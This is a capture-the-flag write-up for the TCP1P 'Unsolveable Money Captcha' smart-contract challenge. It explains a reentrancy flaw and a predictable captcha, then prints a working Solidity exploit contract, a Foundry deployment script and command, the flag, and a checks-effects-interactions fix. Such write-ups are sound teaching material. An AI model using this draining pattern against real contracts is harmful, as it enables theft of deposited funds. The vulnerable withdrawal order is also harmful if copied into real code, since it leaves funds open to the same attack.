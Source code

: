 # Writeup for Unsolveable Money Captcha

- Hello h4ck3r, welcome to the world of smart contract hacking. In order to understand this writeup you need to understand foundry.

### Challenge Description

Oh no! Hackerika just made a super-duper mysterious block chain thingy!
I'm not sure what she's up to, maybe creating a super cool bank app?
But guess what? It seems a bit wobbly because it's asking us to solve a super tricky captcha!
What a silly kid! Let's help her learn how to make a super-duper awesome contract with no head-scratching captcha! XD

### Exploit

Click [here](./src/contracts/) to view the source contracts.

In this challenge our task is make `isSolved()` function return true.

```solidity
function isSolved() public view returns (bool) {
    return address(moneyContract).balance == 0;
}
```

The isSolved() function returns true if the ETH balane of moneyContract is zero.

Now let's understand the `Money` contract.

The Money contract functions like a basic bank. people can save ETH in the contract and when they need it they can withdraw the ETH.

People can save the ETH by calling the save() function.

```
function save() public payable {
    require(msg.value > 0, "You don't have money XP");
    balances[msg.sender] += msg.value;
}
```

When someone calls this function by sending some ETH, it will update the balance of `msg.sender` (caller) by the amount of ETH sent.

Then later whenever the depositer want's to withdraw their saved ETH they can call the load() function.

```solidity
function load(uint256 userProvidedCaptcha) public {
    uint balance = balances[msg.sender];
    require(balance > 0, "You don't have money to load XD");

    uint256 generatedCaptcha = captchaContract.generateCaptcha(secret);
    require(userProvidedCaptcha == generatedCaptcha, "Invalid captcha");

    (bool success,) = msg.sender.call{value: balance}("");
    require(success, 'Oh my god, what is that!?');
    balances[msg.sender] = 0;
}
```

The function `load()` takes an argument of type `uint256` (userProvidedCaptcha). It fetches the ETH deposited by the `msg.sender`. If the deposited ETH is less than zero, the function call will revert. Otherwise, it generates a captcha by calling `generateCaptcha()` in the Captcha contract, passing `secret` as an argument. It then compares the generated value with the user-provided captcha. If both match, it transfers the deposited ETH back to the user. After the transfer, it checks if the transfer was successful. If successful, it updates the balance of `msg.sender` (caller) to zero.

The key point to observe here is that when the captcha matches, the function first sends the ETH and then updates the balance. This can lead to a reentrancy exploit. If the receiver is a smart contract, when `load()` transfers ETH, it will make a low-level call. If the contract has a `receive()` function, from within the `receive()` function, we can call the `load()` function again because our balance is still not updated.

Now let's look how captcha is generated.

```solidity
function generateCaptcha(uint256 _secret) external returns (uint256) {
    uint256 captcha = uint256(keccak256(abi.encodePacked(_secret, block.number, block.timestamp)));
    emit CaptchaGenerated(captcha);
    return captcha;
}
```

The function `generateCaptcha()` will take an argument of type `uint256` (\_secret) as input. It generates a captcha by hashing the combined text of `_secret`, block number, and block timestamp, and it will return the generated captcha.Since it is a external contract we can also directly call this function to generate captcha.

During deployment, the Setup contract deposits 10 ether into the Money contract, giving the Money contract a balance of 10 ether. If we deposit 10 ether into the Money contract and then call the `load()` function, it will trigger the `receive()` function in our Exploit contract. In the `receive` function, if we include logic to call the `load()` function again, the remaining 10 ether in the contract will also be transferred to us. The balance will be updated only after the `receive()` function finishes calling `load()` repeatedly.

Since the balance is updated to zero after every call, it doesn't matter how many times we call `load()` as long as the contract's balance is drained. If our logic in the `receive()` function calls the `load()` function repeatedly, even after the contract balance is drained, all the low-level calls will return false, and the `load()` function will revert with the message `Oh my god, what is that!?`.

The below is the exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Setup, Money, Captcha} from "src/contracts/Setup.sol";

contract ExploitMoney {
    Setup public setup;
    Money public money;
    Captcha public captcha;
    uint256 num = 0;

    constructor() payable {
        require(msg.value == 10 ether);
        setup = Setup(address(this));
        money = Money(setup.moneyContract());
        captcha = Captcha(setup.captchaContract());
    }

    function Exploit() public {
        money.save{value: 10 ether}();
        uint256 secret = money.secret();
        uint256 gen_captcha = captcha.generateCaptcha(secret);
        money.load(gen_captcha);
    }

    receive() external payable {
        if (num == 0) {
            num++;
            uint256 secret = money.secret();
            uint256 gen_captcha = captcha.generateCaptcha(secret);
            money.load(gen_captcha);
        }
    }
}

```

Below is the exploit script to deploy `ExploitMoney` and call the `Exploit()` function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {ExploitMoney} from "./ExploitMoney.sol";

contract ExploitMoneyScript is Script {
    function run() public {
        vm.startBroadcast();
        ExploitMoney exploitmoney = new ExploitMoney{value: 10 ether}();
        exploitmoney.Exploit();
        vm.stopBroadcast();
    }
}

```

```shell
$ forge script script/ExplotMoneyScript.s.sol:ExploitMoneyScript --rpc-url $RPC_URL --interactive --broadcast
```

Once you run this script the challenge will be solved.

**Flag:** `TCP1P{retrancy_attack_plus_not_so_random_captcha}`

### Key Takeaways

Whenever our contract is making an external call to other contracts, we need to follow the CEI (Checks, Effects, Interactions) pattern to prevent any possibility of reentrancy. The below is the CEI pattern of load() function which will prevent the re-entrancy

```solidity
    function load(uint256 userProvidedCaptcha) public {

        uint balance = balances[msg.sender];
        require(balance > 0, "You don't have money to load XD");//Checks

        uint256 generatedCaptcha = captchaContract.generateCaptcha(secret);
        require(userProvidedCaptcha == generatedCaptcha, "Invalid captcha");//Checks
        balances[msg.sender] = 0; //Effects
        (bool success,) = msg.sender.call{value: balance}("");//Interactions
        require(success, 'Oh my god, what is that!?');

    }
```
